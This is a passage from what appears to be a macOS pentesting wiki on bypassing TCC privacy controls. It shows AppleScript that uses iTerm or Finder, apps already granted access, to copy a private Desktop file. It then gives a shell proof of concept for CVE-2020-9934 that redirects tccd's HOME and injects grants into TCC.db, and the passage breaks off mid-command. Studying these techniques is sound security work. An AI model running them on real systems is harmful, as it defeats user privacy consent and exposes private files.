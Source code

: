 Terminal, who doesn't have FDA, can call iTerm, which has it, and use it to perform actions:

{% code title="iterm.script" %}
```applescript
tell application "iTerm"
    activate
    tell current window
        create tab with default profile
    end tell
    tell current session of current window
        write text "cp ~/Desktop/private.txt /tmp"
    end tell
end tell
```
{% endcode %}

```bash
osascript iterm.script
```

#### Over Finder

Or if an App has access over Finder, it could a script such as this one:

```applescript
set a_user to do shell script "logname"
tell application "Finder"
set desc to path to home folder
set copyFile to duplicate (item "private.txt" of folder "Desktop" of folder a_user of item "Users" of disk of home) to folder desc with replacing
set t to paragraphs of (do shell script "cat " & POSIX path of (copyFile as alias)) as text
end tell
do shell script "rm " & POSIX path of (copyFile as alias)
```

## By App behaviour

### CVE-2020–9934 - TCC <a href="#c19b" id="c19b"></a>

The userland **tccd daemon** what using the **`HOME`** **env** variable to access the TCC users database from: **`$HOME/Library/Application Support/com.apple.TCC/TCC.db`**

According to [this Stack Exchange post](https://stackoverflow.com/questions/135688/setting-environment-variables-on-os-x/3756686#3756686) and because the TCC daemon is running via `launchd` within the current user’s domain, it's possible to **control all environment variables** passed to it.\
Thus, an **attacker could set `$HOME` environment** variable in **`launchctl`** to point to a **controlled** **directory**, **restart** the **TCC** daemon, and then **directly modify the TCC database** to give itself **every TCC entitlement available** without ever prompting the end user.\
PoC:

```bash
# reset database just in case (no cheating!)
$> tccutil reset All
# mimic TCC's directory structure from ~/Library
$> mkdir -p "/tmp/tccbypass/Library/Application Support/com.apple.TCC"
# cd into the new directory
$> cd "/tmp/tccbypass/Library/Application Support/com.apple.TCC/"                     
# set launchd $HOME to this temporary directory
$> launchctl setenv HOME /tmp/tccbypass
# restart the TCC daemon
$> launchctl stop com.apple.tccd && launchctl start com.apple.tccd
# print out contents of TCC database and then give Terminal access to Documents
$> sqlite3 TCC.db .dump                                                               
$> sqlite3 TCC.db "INSERT INTO access
                   VALUES('kTCCServiceSystemPolicyDocumentsFolder',
                   'com.apple.Terminal', 0, 1, 1,
```